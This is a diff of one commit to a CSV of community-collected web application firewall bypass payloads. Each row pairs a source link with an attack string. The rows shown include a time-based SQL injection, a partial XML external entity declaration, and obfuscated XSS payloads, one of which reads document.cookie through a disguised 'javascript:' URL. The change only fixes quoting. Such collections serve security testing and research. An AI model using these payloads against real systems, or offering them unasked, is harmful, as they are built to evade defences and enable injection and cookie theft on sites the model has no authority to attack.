

Before and after one commit to waf-bypass-maker/waf-community-bypasses, a CSV file: payloads.twitter.csv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Update payloads.twitter.csv

```diff
--- a/payloads.twitter.csv
+++ b/payloads.twitter.csv
@@ -461,3 +461,3 @@ https://twitter.com/gdprAI/status/1653160069109026816,"<!DOCTYPE foo [<!ENTITY %
 https://wpscan.com/vulnerability/c5e395f8-257e-49eb-afbd-9c1e26045373,"{""sku"":""a\"" AND (SELECT 42 FROM (SELECT(SLEEP(5)))wlHd)-- pOeU""}",sqli
-https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute="x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c">,xss
+https://twitter.com/ShawarkOFFICIAL/status/1656050953660043265,"><BODy onbeforescriptexecute=""x1='cookie';c=')';b='a';location='jav'+b+'script:con'+'fir\u006d('+'document'+'.'+x1+c"">",xss
 https://medium.com/@lopseg/bug-bounty-writeup-stored-xss-vulnerability-waf-bypass-f38aae7ff9eb,<a href="http://example.com;" onmouseover="z=top;z[/al/.source%2b/ert/.source](8);//test.com/",xss
```
